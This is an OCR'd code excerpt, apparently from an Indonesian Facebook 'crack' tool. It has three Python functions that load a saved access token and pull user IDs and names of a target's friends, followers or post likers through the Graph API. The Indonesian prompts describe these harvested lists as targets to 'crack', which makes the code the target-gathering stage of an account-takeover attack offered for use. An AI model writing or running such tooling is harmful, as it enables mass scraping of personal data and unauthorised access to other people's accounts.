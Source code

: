 ### DUMP MASSAL ###
def massal():
	global token
	try:
		token = open("token.txt", "r").read()
	except IOError:
		exit(" [!] token kadaluwarsa")
	try:
		tanya_total = int(raw_input(" [?] masukan jumlah target : "))
	except:tanya_total=1
	print(" [*] isi 'me' jika ingin crack dari daftar teman")
	for t in range(tanya_total):
		t +=1
		idt = raw_input(" [?] id target %s : "%(t))
		try:
			for i in requests.get("https://graph.facebook.com/%s/friends?access_token=%s"%(idt, token)).json()["data"]:
				uid = i["id"]
				nama = i["name"]
				id.append(uid+"<=>"+nama)
		except KeyError:
			print(" [!] akun tidak tersedia atau list teman private")
	print("\n [+] total id  : %s%s%s"%(M,len(id),N))
	
### DUMP FOLLOWERS ###
def followers():
	global token
	try:
		token = open("token.txt", "r").read()
	except IOError:
		exit(" [!] token kadaluwarsa")
	print(" [*] isi 'me' jika ingin crack dari pengikut sendiri")
	idt = raw_input(" [*] masukan id atau username : ")
	try:
		for i in requests.get("https://graph.facebook.com/%s/subscribers?limit=5000&access_token=%s"%(idt, token)).json()["data"]:
			uid = i["id"]
			nama = i["name"]
			id.append(uid+"<=>"+nama)
	except KeyError:
		exit(" [!] akun tidak tersedia atau list teman private")
	print("\n [+] total id  : %s%s%s"%(M,len(id),N))
	
### DUMP POSTINGAN ###
def postingan():
	global token
	try:
		token = open("token.txt", "r").read()
	except IOError:
		exit(" [!] token kadaluwarsa")
	idt = raw_input(" [?] masukan url atau id postingan : ")
	try:
		for i in requests.get("https://graph.facebook.com/%s/likes?limit=5000&access_token=%s"%(idt, token)).json()["data"]:
			uid = i["id"]
			nama = i["name"]
			id.append(uid+"<=>"+nama)
	except KeyError:
		exit(" [!] postingan tidak tersedia atau post private")
	print("\n [+] total id  : %s%s%s"%(M,len(id),N))
	